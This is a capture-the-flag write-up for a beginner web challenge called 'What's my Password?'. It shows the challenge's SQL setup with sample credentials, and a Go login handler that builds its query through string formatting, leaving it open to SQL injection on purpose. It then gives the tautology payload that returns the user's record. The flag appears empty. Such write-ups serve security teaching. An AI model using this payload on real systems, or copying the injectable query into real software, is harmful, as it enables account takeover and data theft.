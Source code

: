 # What's my Password?

## Problem statement

[baby] Oh no! Skat forgot their password (again)!
Can you help them find it?

Link to the webpage: https://whats-my-password-web.chal.irisc.tf

Name of the archive given with the challenge: ```whats-my-password.tar.gz```

## Solution

After some research, we have to do a SQL injection. Here is the information.

```setup.sql``` file which contain the logic of the MySQL database:

```
CREATE DATABASE uwu;
use uwu;

CREATE TABLE IF NOT EXISTS users ( username text, password text );
INSERT INTO users ( username, password ) VALUES ( "root", "IamAvEryC0olRootUsr");
INSERT INTO users ( username, password ) VALUES ( "skat", "fakeflg{fake_flag}");
INSERT INTO users ( username, password ) VALUES ( "coded", "ilovegolang42");

CREATE USER 'readonly_user'@'%' IDENTIFIED BY 'password';
GRANT SELECT ON uwu.users TO 'readonly_user'@'%';
FLUSH PRIVILEGES;
```

```main.go``` file that contain the logic of the backend code:

```
package main

import (
	"database/sql"
	"encoding/json"
	"fmt"
	"net/http"
	"os"
	"os/signal"
	"regexp"
	"syscall"

	_ "github.com/go-sql-driver/mysql"
)

var DB *sql.DB
var Mux = http.NewServeMux()
var UsernameRegex = `[^a-z0-9]`

type Account struct {
	Username string `json:"username"`
	Password string `json:"password"`
}

func startWeb() {
	fmt.Println("Starting very secure login panel (promise)")

	fs := http.FileServer(http.Dir("/home/user/web"))
	Mux.Handle("/", fs)

	Mux.HandleFunc("/api/login", func(w http.ResponseWriter, r *http.Request) {
		if r.Method != http.MethodPost {
			w.WriteHeader(http.StatusMethodNotAllowed)
			return
		}

		var input Account

		decoder := json.NewDecoder(r.Body)
		decoder.Decode(&input)

		if input.Username == "" {
			w.WriteHeader(http.StatusBadRequest)
			w.Write([]byte("Missing Username"))
			return
		}
		if input.Password == "" {
			w.WriteHeader(http.StatusBadRequest)
			w.Write([]byte("Missing Password"))
			return
		}

		matched, err := regexp.MatchString(UsernameRegex, input.Username)
		if err != nil {
			w.WriteHeader(http.StatusInternalServerError)
			return
		}

		if matched {
			w.WriteHeader(http.StatusBadRequest)
			w.Write([]byte("Username can only contain lowercase letters and numbers."))
			return
		}

		qstring := fmt.Sprintf("SELECT * FROM users WHERE username = \"%s\" AND password = \"%s\"", input.Username, input.Password)

		query, err := DB.Query(qstring)
		if err != nil {
			w.WriteHeader(http.StatusInternalServerError)
			fmt.Println(err)
			return
		}
		defer query.Close()

		if !query.Next() {
			w.WriteHeader(http.StatusUnauthorized)
			w.Write([]byte("Invalid username / password combination!"))
			return
		}

		var result Account
		err = query.Scan(&result.Username, &result.Password)
		if err != nil {
			w.WriteHeader(http.StatusInternalServerError)
			fmt.Println(err)
			return
		}
		encoded, err := json.Marshal(result)
		if err != nil {
			w.WriteHeader(http.StatusInternalServerError)
			fmt.Println(err)
			return
		}

		w.Write(encoded)
	})

	http.ListenAndServe(":1337", Mux)
}

func main() {
	fmt.Println("Establishing connection to MySql")
	db, err := sql.Open("mysql", "readonly_user:password@tcp(127.0.0.1:3306)/uwu")
	if err != nil {
		fmt.Println(err)
		return
	}
	DB = db

	defer DB.Close()

	startWeb()

	sigChan := make(chan os.Signal, 1)
	signal.Notify(sigChan, syscall.SIGINT, syscall.SIGTERM)
	<-sigChan
}
```

Our goal is to retrieve the password of skat from the MySQL database.

gg

We can see that the SQL query that is used when we try to login is the following:

```SELECT * FROM users WHERE username = \"%s\" AND password = \"%s\"```

We used Burp Suite as a proxy to see the response of our HTTP requests:

In order to retrieve the flag, the payload we need to use is the following:

- Username: ```skat```
- Password: ```" or ""="```

The flag returned is the following: ```irisctf{}```
